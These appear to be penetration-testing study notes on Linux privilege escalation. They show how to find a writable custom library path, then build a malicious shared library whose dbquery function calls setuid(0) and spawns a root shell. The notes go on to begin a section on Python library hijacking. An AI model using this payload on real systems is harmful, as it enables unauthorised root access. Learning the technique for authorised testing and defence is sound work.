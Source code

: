 Programs and binaries under development, usually have custom libraries associated with them.
Look for non-standard libraries
```shell
ldd <binary name>
```
Find the location of the binary
```shell
readelf -d <binary>  | grep PATH
```
Can you write to this folder?
```shell
 ls -la /development/
```
need to find a function called in the binary
```shell
cp /lib/x86_64-linux-gnu/libc.so.6 <path to called function>
```
Look to see if this library appears now
```shell
ldd <binary name>
```
```shell
./<binary name>
```
Look for a function name
Example:
```shell
./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```
```shell
 gcc src.c -fPIC -shared -o <path to libary>
```
Run the binary again

## Python Library Hijacking
* Three main ways to hijack a library:
	1. Wrong wire permissions
	2. Library Path
	3. PYTHONPATH environment variable
### Wrong Write Permissions
```shell
 ls -l mem_status.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```
```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```
#### Module Permissions
```shell
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
```